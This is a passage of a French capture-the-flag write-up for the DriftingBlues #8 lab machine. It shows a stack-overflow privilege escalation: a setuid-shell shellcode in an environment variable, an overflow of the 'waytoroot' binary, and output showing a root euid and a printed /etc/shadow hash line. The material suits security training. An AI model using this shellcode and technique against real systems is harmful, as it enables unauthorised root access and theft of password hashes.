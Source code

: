 ![DriftingBlues #8 CTF stack overflow exploitation](/assets/img/hackmyvm/drifting_blues_8_stack_overflow.png)

Pour avoir l'adresse mémoire des variables d'environnement j'ai écrit un code C qui peut se résumer à :  

```c
printf("%s: %p\n", argv[1], getenv(argv[1]));
```

Je me suis basé sur [un shellcode qui rajoute le bit setuid sur /bin/sh](https://www.exploit-db.com/shellcodes/43671).  

```plain
clapton@driftingblues:~$ export SHELLCODE=`python -c "print '\x90' *100 + '\x31\xC0\x31\xDB\x31\xC9\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x66\xB9\xFE\x10\x66\x81\xE9\x01\x07\xB0\x0F\xCD\x80\xB0\x0
1\xCD\x80'"` 
clapton@driftingblues:~$ ./mygetenv SHELLCODE 
SHELLCODE: 0xbffffde5 
clapton@driftingblues:~$ export ADDRESS=`python -c "print '\xef\xfd\xff\xbf'*30 " `    
clapton@driftingblues:~$ ./mygetenv ADDRESS                                      
ADDRESS: 0xbffffefc 
clapton@driftingblues:~$ ./waytoroot `python -c "print '\x04\xff\xff\xbf' * 30"`    
hahaha silly hacker! 
clapton@driftingblues:~$ ls -l /bin/dash         
-rwsrwxr-x 1 root root 132820 Jan 17  2019 /bin/dash 
clapton@driftingblues:~$ /bin/dash -p 
# id 
uid=1000(clapton) gid=1000(clapton) euid=0(root) groups=1000(clapton) 
# head -1 /etc/shadow 
root:$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:18742:0:99999:7:::

```